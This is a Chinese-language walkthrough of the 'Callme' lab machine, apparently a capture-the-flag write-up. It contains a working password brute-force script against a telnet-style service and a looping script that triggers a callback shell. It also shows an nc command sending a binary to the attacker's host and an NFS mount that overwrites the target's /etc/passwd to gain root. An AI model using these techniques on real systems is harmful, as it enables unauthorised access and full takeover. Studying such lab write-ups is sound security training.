


# Callme

## 端口扫描

通过nmap得知存在三个端口与服务


## 攻击2323端口

首先可以看出这个服务类似IMAP，当然肯定不是，那么我们考虑用telnet进行交互


存在一个登录的交互


经过测试这里可以得知用户名为admin


既然如此我们可以尝试爆破密码

```python
import socket
import time
import sys

with open('./rockyou.txt') as passwords:
    for (passwd,i) in zip(passwords,range(1,1575)):
        print("\r", end="")
        username = b'admin'
        ip = '172.20.10.4'
        port = 2323
        s = socket.socket()
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send(username + b'\r\n')
        s.recv(1024)
        s.send(passwd.strip().encode() + b'\r\n')
        re = s.recv(1024)
        s.recv(1024)
        sys.stdout.flush()
        time.sleep(0.01)
        if "Wrong password for user admin" not in str(re):
            print("\n[*] Get it! PASSWORD is:")
            print(passwd)
            break


```

成功得到密码booboo


猜测这个数字和端口有关



根据此我监听了一个2223端口，一直爆破就行等待上线

```python
import socket
import time

username = b'admin'
password = b"booboo"
ip = '172.20.10.4'
port = 2323
while True:
    s = socket.socket()
    s.connect((ip, port))
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(password + b'\r\n')
    re = s.recv(1024)
    print(s.recv(1024))
    s.close()


```

拿到shell，不过一个linux机器为什么返回我一个windows的shell，猜测是用了wine运行的程序


有个 local.txt 查看

```bash
Z:\home\fox>type local.txt
ea2188e08f77470c2c9918ba06f566f7
```

同时发现一个startup的程序


根据wine的运行配置我们很容易找到目录

```
/home/fox/.wine/drive_c/windows/system32/recallserver.exe
```

在靶机端用python起个服务下载，但是wine给的shell运行不了python不知道为什么

还好有个nc

```
windows:nc –n ip port < recallserver.exe
mac: nc -l port > 1.exe
```


拖进ida里面分析发现一个泄漏的密码`CODE:0046B5AC	00000012	C	tutankamenFERILLI`


## 登录ssh

结合之前home下的用户信息猜测用户名就是fox的，ssh成功登录！


## 提权

查看特权指令



看看这个命令是干什么的


可见我们可以将 Kali 本地的 /etc 挂载到靶机的 /etc 从而覆盖 /etc/passwd

在 Kali 生成密码

```bash
$ openssl passwd -1 -salt y4tacker y4tacker
```

写入`/etc/passswd`


在 Kali 启动nfs

```bash
apt-get install nfs-kernel-server # 下载server
echo '/etc *(rw,no_root_squash,insecure)' > /etc/exports # 设置/etc允许被挂载
systemctl restart nfs-utils.service
/etc/init.d/nfs-kernel-server restart
```

挂载

```bash
sudo mount.nfs 172.20.10.6:/etc /etc
```

df查看结果


切换用户成功提权


进入root目录成功获得指定文件


